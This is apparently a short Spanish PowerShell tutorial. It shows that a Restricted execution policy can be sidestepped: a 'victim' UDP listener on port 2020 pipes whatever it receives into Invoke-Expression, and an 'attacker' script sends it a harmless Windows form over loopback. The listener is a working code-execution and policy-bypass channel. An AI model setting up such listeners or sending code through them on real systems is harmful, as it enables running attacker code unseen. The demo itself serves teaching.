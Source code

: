 ## TRANSMITIR FORMULARIO CON POLITICA DE SEGURIDAD RESTRICTED

Usaremos el modelo [Cliente Servidor](https://www.jesusninoc.com/12/29/server-and-client/)


 #### ACTIVAMOS LAS POLÍTICAS DE SEGURIDAD
 
```POWERSHELL
set-executionpolicy restricted 
```
#### Y CREAMOS EL FORMULARIO EN UN ARCHIVO .PS1 (TODO EN UNA LINEA Y SEPARAMOS LAS LINEAS CON ";")

```POWERSHELL
using assembly System.Windows.Forms;using namespace System.Windows.Forms;$form = [Form] @{Text = 'Queipo'};$button = [Button] @{Text = 'Pulsa que yo te aviso'; Dock = 'Fill'};$form.Controls.Add($button);$form.ShowDialog()
```
---------------------

###### EJECUTAR PRIMERO VÍCTIMA Y DESPUÉS ATACANTE

### VICTIMA

```POWERSHELL
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Any,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient $port
$content=$udpclient.Receive([ref]$endpoint)
$reci= [Text.Encoding]::ASCII.GetString($content)
$udpclient.Dispose()
$reci | iex
```

### ATACANTE

```POWERSHELL
$txt= get-content formulario.ps1
$port=2020
$endpoint = new-object System.Net.IPEndPoint ([IPAddress]::Loopback,$port)
$udpclient=new-Object System.Net.Sockets.UdpClient
$b=[Text.Encoding]::ASCII.GetBytes($txt)
$bytesSent=$udpclient.Send($b,$b.length,$endpoint)
$udpclient.Close()
```


